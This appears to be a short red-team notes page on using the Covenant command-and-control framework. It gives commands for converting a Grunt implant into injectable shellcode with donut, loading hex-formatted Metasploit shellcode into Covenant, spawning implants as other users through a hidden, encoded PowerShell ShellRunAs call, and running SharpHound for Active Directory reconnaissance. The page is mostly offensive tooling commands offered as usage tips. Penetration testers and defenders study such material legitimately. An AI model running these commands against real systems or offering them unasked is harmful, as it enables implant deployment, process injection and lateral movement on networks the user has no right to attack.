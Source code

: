 ```yaml
---
date: 2020-04-09 23:00:00 +0000
title: Covenant
description: Notes on Covenant usage
categories: misc

---
```

A few notes on Covenant usage, at the time of writing two common options do not exist:

* Shellcode Generation
* Built-in socks support

To get around the first one, it is possible to generate a Grunt EXE and use donut to compile a position independant shellcode, which can then be injected into other processes.

    .\donut.exe -f GruntStager.exe -o grunt.bin

For the built-in socks stuff, MSF can be used along with the ShellCode option in Covenant:

Format the shellcode

    xxd -ps msf.bin| tr -d '\n'

Place the output from above where "hex" is stated below:

    Covenant> ShellCode hex

#### Useful Commands

##### Grunt Spawning

To spawn other grunts for other users, it is possible to leverage the "ShellRunAs" command:

    ShellRunAs "powershell.exe -nop -w 1 -enc PAYLOAD"

##### Run .NET Assemblies

    Assembly /assemblyname:"SharpHound" /parameters:"-C All"